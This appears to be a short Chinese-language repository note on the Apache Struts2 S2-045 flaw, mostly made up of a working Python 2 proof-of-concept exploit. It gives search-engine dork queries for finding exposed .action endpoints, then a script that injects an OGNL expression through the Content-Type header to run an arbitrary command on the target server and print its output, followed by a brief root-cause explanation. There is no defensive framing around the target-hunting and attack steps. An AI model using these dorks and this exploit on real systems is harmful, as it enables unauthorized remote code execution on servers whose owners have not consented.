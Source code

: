 # strut2-045漏洞信息

搜索引擎搜索这些关键字：  
```r
inurl:Vlogin.User.action
inurl:Mail.action
inurl:code.action
inurl:reg.action
inurl:Address.action
inurl:login.action
```

然后用Python脚本测试  
python2  
```python
#! /usr/bin/env python
# encoding:utf-8

import urllib2
import sys
from poster.encode import multipart_encode
from poster.streaminghttp import register_openers
def poc():
    if len(sys.argv) < 3:
        print '''Usage: poc.py http://172.16.12.2/example/HelloWorld.action "command"'''
        sys.exit()
    register_openers()
    datagen, header = multipart_encode({"image": open("tmp.txt", "w+")})
    header["User-Agent"]="Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36"
    header["Content-Type"]="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='"+str(sys.argv[2])+"').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
    request = urllib2.Request(str(sys.argv[1]),datagen,headers=header)
    response = urllib2.urlopen(request)
    print response.read()
poc()
```

基本原理就是 content-type注入命令  

漏洞原因：基于Jakarta Multipart parser的文件上传模块在处理文件上传(multipart)的请求时候对异常信息做了捕获，并对异常信息做了OGNL表达式处理。但在在判断content-type不正确的时候会抛出异常并且带上Content-Type属性值，可通过精心构造附带OGNL表达式的URL导致远程代码执行[1]。  

原链接: http://www.myhack58.com/Article/html/3/62/2017/84117.htm  


2017/9/2  
